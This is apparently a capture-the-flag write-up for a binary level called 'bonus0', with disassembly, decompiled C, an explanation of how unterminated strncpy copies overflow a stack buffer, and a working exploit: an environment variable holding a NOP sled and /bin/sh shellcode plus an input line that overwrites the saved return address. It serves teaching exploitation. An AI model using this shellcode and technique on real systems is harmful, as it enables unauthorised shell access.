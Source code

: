 # bonus0

```
080484b4 <p>:
 80484b4:       55                      push   ebp
 80484b5:       89 e5                   mov    ebp,esp
 80484b7:       81 ec 18 10 00 00       sub    esp,0x1018
 80484bd:       8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 80484c0:       89 04 24                mov    DWORD PTR [esp],eax
 80484c3:       e8 e8 fe ff ff          call   80483b0 <puts@plt>
 80484c8:       c7 44 24 08 00 10 00    mov    DWORD PTR [esp+0x8],0x1000
 80484cf:       00 
 80484d0:       8d 85 f8 ef ff ff       lea    eax,[ebp-0x1008]
 80484d6:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 80484da:       c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
 80484e1:       e8 9a fe ff ff          call   8048380 <read@plt>
 80484e6:       c7 44 24 04 0a 00 00    mov    DWORD PTR [esp+0x4],0xa
 80484ed:       00 
 80484ee:       8d 85 f8 ef ff ff       lea    eax,[ebp-0x1008]
 80484f4:       89 04 24                mov    DWORD PTR [esp],eax
 80484f7:       e8 d4 fe ff ff          call   80483d0 <strchr@plt>
 80484fc:       c6 00 00                mov    BYTE PTR [eax],0x0
 80484ff:       8d 85 f8 ef ff ff       lea    eax,[ebp-0x1008]
 8048505:       c7 44 24 08 14 00 00    mov    DWORD PTR [esp+0x8],0x14
 804850c:       00 
 804850d:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048511:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048514:       89 04 24                mov    DWORD PTR [esp],eax
 8048517:       e8 d4 fe ff ff          call   80483f0 <strncpy@plt>
 804851c:       c9                      leave  
 804851d:       c3                      ret    

0804851e <pp>:
 804851e:       55                      push   ebp
 804851f:       89 e5                   mov    ebp,esp
 8048521:       57                      push   edi
 8048522:       53                      push   ebx
 8048523:       83 ec 50                sub    esp,0x50
 8048526:       c7 44 24 04 a0 86 04    mov    DWORD PTR [esp+0x4],0x80486a0
 804852d:       08 
 804852e:       8d 45 d0                lea    eax,[ebp-0x30]
 8048531:       89 04 24                mov    DWORD PTR [esp],eax
 8048534:       e8 7b ff ff ff          call   80484b4 <p>
 8048539:       c7 44 24 04 a0 86 04    mov    DWORD PTR [esp+0x4],0x80486a0
 8048540:       08 
 8048541:       8d 45 e4                lea    eax,[ebp-0x1c]
 8048544:       89 04 24                mov    DWORD PTR [esp],eax
 8048547:       e8 68 ff ff ff          call   80484b4 <p>
 804854c:       8d 45 d0                lea    eax,[ebp-0x30]
 804854f:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048553:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048556:       89 04 24                mov    DWORD PTR [esp],eax
 8048559:       e8 42 fe ff ff          call   80483a0 <strcpy@plt>
 804855e:       bb a4 86 04 08          mov    ebx,0x80486a4
 8048563:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048566:       c7 45 c4 ff ff ff ff    mov    DWORD PTR [ebp-0x3c],0xffffffff
 804856d:       89 c2                   mov    edx,eax
 804856f:       b8 00 00 00 00          mov    eax,0x0
 8048574:       8b 4d c4                mov    ecx,DWORD PTR [ebp-0x3c]
 8048577:       89 d7                   mov    edi,edx
 8048579:       f2 ae                   repnz scas al,BYTE PTR es:[edi]
 804857b:       89 c8                   mov    eax,ecx
 804857d:       f7 d0                   not    eax
 804857f:       83 e8 01                sub    eax,0x1
 8048582:       03 45 08                add    eax,DWORD PTR [ebp+0x8]
 8048585:       0f b7 13                movzx  edx,WORD PTR [ebx]
 8048588:       66 89 10                mov    WORD PTR [eax],dx
 804858b:       8d 45 e4                lea    eax,[ebp-0x1c]
 804858e:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048592:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048595:       89 04 24                mov    DWORD PTR [esp],eax
 8048598:       e8 f3 fd ff ff          call   8048390 <strcat@plt>
 804859d:       83 c4 50                add    esp,0x50
 80485a0:       5b                      pop    ebx
 80485a1:       5f                      pop    edi
 80485a2:       5d                      pop    ebp
 80485a3:       c3                      ret    

080485a4 <main>:
 80485a4:       55                      push   ebp
 80485a5:       89 e5                   mov    ebp,esp
 80485a7:       83 e4 f0                and    esp,0xfffffff0
 80485aa:       83 ec 40                sub    esp,0x40
 80485ad:       8d 44 24 16             lea    eax,[esp+0x16]
 80485b1:       89 04 24                mov    DWORD PTR [esp],eax
 80485b4:       e8 65 ff ff ff          call   804851e <pp>
 80485b9:       8d 44 24 16             lea    eax,[esp+0x16]
 80485bd:       89 04 24                mov    DWORD PTR [esp],eax
 80485c0:       e8 eb fd ff ff          call   80483b0 <puts@plt>
 80485c5:       b8 00 00 00 00          mov    eax,0x0
 80485ca:       c9                      leave  
 80485cb:       c3                      ret    
 80485cc:       90                      nop
 80485cd:       90                      nop
 80485ce:       90                      nop
 80485cf:       90                      nop

```

```c
char * p(char *dest, char *s)
{
  char buf[4096];

  puts(s);
  read(0, buf, 4096);
  *strchr(buf, 10) = 0;
  return strncpy(dest, buf, 20);
}

char * pp(char *dest)
{
  char buff1[20];
  char buff2[20];

  p(buff1, " - ");
  p(buff2, " - ");
  strcpy(dest, buff1);
  *(uint16_t *)&dest[strlen(dest)] = 0x2000; // ' \0'
  return strcat(dest, buff2);
}

int main(void)
{
  char final_buff[42]; // [esp+16h] [ebp-2Ah] BYREF

  pp(final_buff);
  puts(final_buff);
  return 0;
}
```

This code contains a subtle bug in the `p` in conjunction with `pp`'s buffers. First thing to note is that `read` do not place a *NUL* byte at the end of the character sequence. Also, `strncpy` will not null-terminate the **destination** string if the number of characters to copy are less or equal than the number of characters in the **source** string.

Practically, if your string to copy is 20 bytes, and your destination buffer is 10 in size, and you pass 10 in `strncpy`, your string in the destination buffer will not be null-terminated.
We can also notice that `buff1` and `buff2` are allocated *side-to-side* in the stack, meaning they are next to each other.

Consequently, if we fill up `buff1` with 20 characters, and then `buff2` with 5 characters, the `strcpy(dest, buff1)` call will not copy 20 characters into `dest` but **25** ! Following this, a space and nul byte are appended to `dest`, and `buff2` is concatenated into `dest`.

The buffer overflow becomes obvious here. We can overwrite the **saved eip** of `main`. They are no other function that can grant us access to a shell, so we must inject a shellcode somewhere. A environnement should be a good spot since we will have unlimited storage, and will exist past the `main` stack frame. Our shellcode will be padded with a lot of `nop` at the beginning to give us a big jump window :

```
export SHELLCODE=$(python -c 'print("\x90"*80 + "\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80")')
```

With **GDB**, we can fine-tune and fine how many junk characters we need to insert to overwrite the **saved-eip** of `main`.

(python -c 'print("a"*20)'; sleep 0.1; python -c 'print("b"*14 + "\xFD\xF8\xFF\xBF\xBF")'; cat) | ./bonus0
```